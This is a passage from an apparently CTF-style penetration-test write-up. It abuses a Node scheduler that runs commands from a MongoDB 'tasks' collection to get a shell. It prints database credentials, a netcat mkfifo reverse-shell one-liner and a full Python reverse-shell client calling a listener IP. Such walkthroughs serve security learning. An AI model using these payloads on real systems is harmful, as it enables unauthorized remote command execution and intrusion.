 - It appears that this version of app.js connects to the database, reads from ‘tasks’, executes whatever command is there, then deletes the entry, on a 30 second cycle.

- We now need to figure out the syntax needed to actually make a connection to the database with the intent of adding a task that opens up a shell to our machine. It seems like it should be as simple as using the contents of the url variable, but authMechanism actually needs to be removed for this to work correctly.

{% highlight bash %}
mongo mongodb://mark:markspw@localhost:27017/scheduler?authSource=scheduler
{% endhighlight %}

- Before we go further, we can grab some code [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"} for a reverse shell.

- One strategy is to add a command that runs netcat, since that is actually installed on the target machine. As information in the link above provides, since the target machine doesn't allow the \-e flag, we have to use the syntax:

{% highlight bash %}
‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f’
{% endhighlight %}

- Another approach, if we don't want to rely on netcat being available, is to use a pair of Python scripts as found [here](https://github.com/trackmastersteve/shell){:target="_blank"}.

- This code goes on the target machine in the /tmp directory:
{% highlight python %}
#!/usr/bin/python3

import os
import socket
import subprocess

HOST = '10.11.3.185' # The ip of the listener.
PORT = 2468 # The same port as listener.

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT)) # Connect to listener.
s.send(str.encode("[*] Connection Established!")) # Send connection confirmation.

while 1: # Start loop.
data = s.recv(1024).decode("UTF-8") # Recieve shell command.
if data == "quit":
break # If it's quit, then break out and close socket.
if data[:2] == "cd":
os.chdir(data[3:]) # If it's cd, change directory.
# Run shell command.
if len(data) > 0:
proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
stdout_value = proc.stdout.read() + proc.stderr.read() # Read output.
output_str = str(stdout_value, "UTF-8") # Format output.
currentWD = os.getcwd() + "> " # Get current working directory.
s.send(str.encode(currentWD + output_str)) # Send output to listener.

s.close() # Close socket.
{% endhighlight %}
